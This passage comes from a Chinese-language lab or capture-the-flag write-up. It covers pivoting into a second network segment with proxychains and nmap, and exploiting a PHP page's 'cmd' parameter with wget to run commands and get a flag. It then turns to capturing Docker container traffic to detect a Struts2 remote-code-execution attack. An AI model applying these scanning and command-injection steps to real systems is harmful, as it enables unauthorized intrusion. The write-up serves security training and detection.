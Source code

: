 ```
于是升级并进入 session 5，并确认第二层靶标的网段是 `192.169.85.0/24`

![升级并进入session5](img/升级并进入session5.png)

![第二层靶标网段](img/第二层靶标网段.png)

![第二层靶标网段2](img/第二层靶标网段2.png)

确认靶标的网段后回到 attacker 扫描第二层靶标

```
proxychains sudo nmap -vv -n -p 80 -Pn -sT 192.169.85.3
```

结果显示端口被过滤，于是执行以下命令扫描该网段的其他 ip

```
proxychains sudo nmap -vv -n -p 80 -Pn -sT 192.169.85.2-254 | grep open
```

![扫描第二层入口](img/扫描第二层入口.png)

进入第一层靶机升级后的 shell 中，尝试使用 wget 来枚举并找到可能开放的端口，在尝试 192.169.85.2 时成功收到了 response

```
wget http://192.169.85.2/
```

![wget获取成功](img/wget获取成功.png)

于是再次wget该网页并保存和显示获取到的网页内容

```
wget http://192.169.85.2 -O /tmp/result && cat /tmp/result
```

![wget并打印获取内容](img/wget并打印获取内容.png)

可以看到打印出来的获取内容是 `index.php?cmd=ls /tmp` ，所以该页面是 php 文件，可以通过 cmd 来传参，于是进行以下尝试

```
wget "http://192.169.85.2/index.php?cmd=ls /tmp" -O /tmp/result && cat /tmp/result
```

命令成功执行并得到了flag如下

![攻破第二层靶标](img/攻破第二层靶标.png)

![进度100%](img/进度100.png)

## DMZ 入口靶标漏洞利用检测
* 由于已知漏洞类型，在进行攻击实验前，为方便分析和确认 Struts2 代码执行漏洞是否存在，以及是否可以成功利用该漏洞进行远程代码执行分析，可以对 docker 对应的容器抓取流量包。
    ```
    docker ps #正在启动的容器列表
    container_name="XXXXXX" #自定义变量赋值需要抓取流量的容器的ID或名称
    docker run --rm --net=container:${container_name} -v ${PWD}/tcpdump/${container_name}:/tcpdump kaazing/tcpdump #运行一个临时 kaazing/tcpdump 容器。让该容器监听 ${container_name} 容器的网络流量。将抓包数据存放在 /tcpdump 目录，并映射到宿主机的 ${PWD}/tcpdump/${container_name}。容器完成任务后自动删除（--rm）
    ```

    ![docker容器一览](./img/docker容器一览.png)

1. **过滤 HTTP 包：** Struts2 代码执行漏洞通常利用 HTTP 请求触发,同时过滤出 HTTP 包可以排除无关的数据流量。
   * 攻击者 ip：192.168.56.104
   * HTTP 头部：POST / HTTP/1.1 → 通常用于提交数据，符合 Struts2 攻击特征
```